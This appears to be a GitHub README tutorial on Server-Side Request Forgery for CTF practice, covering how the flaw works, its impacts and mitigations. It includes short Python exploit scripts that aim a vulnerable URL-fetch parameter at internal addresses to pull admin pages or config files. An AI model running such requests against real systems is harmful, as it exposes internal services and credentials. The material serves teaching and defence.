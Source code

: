 # Cybersecurity (Web Exploitation)
Author: Kanishk Jagya  
GitHub: [github.com/KanishkJagya1](https://github.com/KanishkJagya1)

## Table of Contents
1. [Introduction](#introduction)
2. [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
    - [How SSRF Works](#how-ssrf-works)
    - [Example Scenario](#example-scenario)
    - [Potential Impacts of SSRF](#potential-impacts-of-ssrf)
    - [Mitigation Strategies](#mitigation-strategies)
    - [Example in a CTF Scenario](#example-in-a-ctf-scenario)
3. [Code Examples](#code-examples)
    - [Crafting a Malicious Request](#crafting-a-malicious-request)
    - [Analyzing the Response](#analyzing-the-response)
4. [Conclusion](#conclusion)

## Introduction
This repository provides a detailed explanation of Server-Side Request Forgery (SSRF), a common web security vulnerability, along with example code snippets and mitigation strategies. The content is particularly useful for Capture The Flag (CTF) challenges and practical web security.

## Server-Side Request Forgery (SSRF)
### How SSRF Works
Server-Side Request Forgery (SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker’s choosing. This can lead to serious security implications, especially if the server has access to internal-only services or resources.

### Example Scenario
Consider a web application that allows users to fetch profile pictures from a URL. The application might provide a URL parameter like this:

```plaintext
http://example.com/fetch?url=http://profilepictures.com/user123.jpg
```

An attacker can manipulate this parameter to make the server request an internal resource:

```plaintext
http://example.com/fetch?url=http://internalserver.local/admin
```

If the server-side application does not properly validate the input URL, it may fetch and return sensitive information from the internal resource.

### Potential Impacts of SSRF
1. **Access to Internal Services**: The attacker may gain access to internal services that are not exposed to the public, such as databases, internal APIs, and cloud metadata services.
2. **Bypass Firewalls**: By making requests from the server, the attacker can bypass firewall restrictions and access otherwise restricted resources.
3. **Sensitive Data Exposure**: The attacker might extract sensitive data from internal systems, such as internal network information, confidential documents, or metadata from cloud instances.
4. **Port Scanning and Enumeration**: The attacker can use SSRF to scan for open ports on internal networks, potentially identifying vulnerable services.

### Mitigation Strategies
1. **Input Validation**: Strictly validate and sanitize user inputs. Ensure that URLs provided by users cannot be manipulated to target internal resources.
2. **Allowlist URLs**: Implement an allowlist of acceptable URLs that the server can fetch, and block all others.
3. **Metadata Service Protection**: Restrict access to metadata services from the server to prevent attackers from accessing sensitive instance metadata.
4. **Network Segmentation**: Separate your internal services from your web servers and use network-level restrictions to control access.
5. **Use Safe Libraries**: When making HTTP requests, use libraries and frameworks that offer built-in protection against SSRF attacks.

### Example in a CTF Scenario
In a Capture The Flag (CTF) scenario, you might be given a web application with a feature that fetches external content based on user input. Your task would be to manipulate this feature to make the server fetch internal content, revealing the flag.

Here’s a step-by-step approach:
1. **Identify the Vulnerable Feature**: Look for functionalities that take a URL as input and fetch data from it.
2. **Craft a Malicious Request**: Modify the input to point to an internal resource (e.g., `http://localhost/admin`).
3. **Extract the Response**: Analyze the response from the server to extract sensitive information or the flag.

## Code Examples
### Crafting a Malicious Request
Using Python and the `requests` library, you can craft a malicious request to exploit an SSRF vulnerability.

```python
import requests

# Target URL with the SSRF vulnerability
target_url = 'http://example.com/fetch?url='

# Malicious URL pointing to an internal resource
malicious_url = 'http://internalserver.local/admin'

# Complete URL for the request
exploit_url = target_url + malicious_url

# Sending the request
response = requests.get(exploit_url)

# Print the response
print(response.text)
```

### Analyzing the Response
Once you have crafted and sent the malicious request, you can analyze the server's response to extract sensitive information.

```python
# Analyzing the response
if 'flag' in response.text:
    print('Flag found:', response.text.split('flag')[1])
else:
    print('Flag not found, response:', response.text)
```

### Detailed Example of CTF Challenge
Consider a CTF challenge where you need to retrieve an internal configuration file. Here’s a more detailed example:

```python
import requests

# Target URL with SSRF vulnerability
target_url = 'http://example.com/fetch?url='

# Malicious URL to fetch internal configuration file
malicious_url = 'http://localhost/config'

# Complete URL for the request
exploit_url = target_url + malicious_url

# Sending the request
response = requests.get(exploit_url)

# Print the response
print(response.text)
```

In this example, the attacker crafts a request to fetch the internal configuration file located at `http://localhost/config`. By analyzing the server's response, the attacker might extract sensitive information such as database credentials or internal API keys.

## Conclusion
Understanding SSRF vulnerabilities and their potential impacts is crucial for web security. By knowing how to exploit such vulnerabilities, you can better protect your applications through proper input validation, network segmentation, and other mitigation strategies. This knowledge is also valuable in CTF competitions where SSRF challenges are common. For further study, consider exploring more advanced techniques and tools for detecting and preventing SSRF attacks.

For more information and examples, visit my GitHub: [github.com/KanishkJagya1](https://github.com/KanishkJagya1).